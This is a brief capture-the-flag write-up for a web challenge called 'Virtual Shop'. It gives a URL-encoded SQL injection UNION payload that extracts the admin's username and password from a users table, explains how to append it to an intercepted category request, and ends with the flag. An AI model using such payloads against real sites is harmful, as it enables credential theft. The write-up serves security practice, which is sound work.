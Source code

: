 # Virtual Shop
## Writeup
You can use this payload: 
`+UNION+SELECT+username,NULL,password,NULL+FROM+users+WHERE+username%3d'admin'--`
You can intercept the request when choosing a category and append the payload above to it, just like this:
![Image1](picture.png)
Then just take a look at the response:
![Image2](./picture2.png)
## Flag
```shellmates{Gg_b0Y_you_kNOW_w3ll_H0w_T0_uSe_uNiOn_4tTacK}```
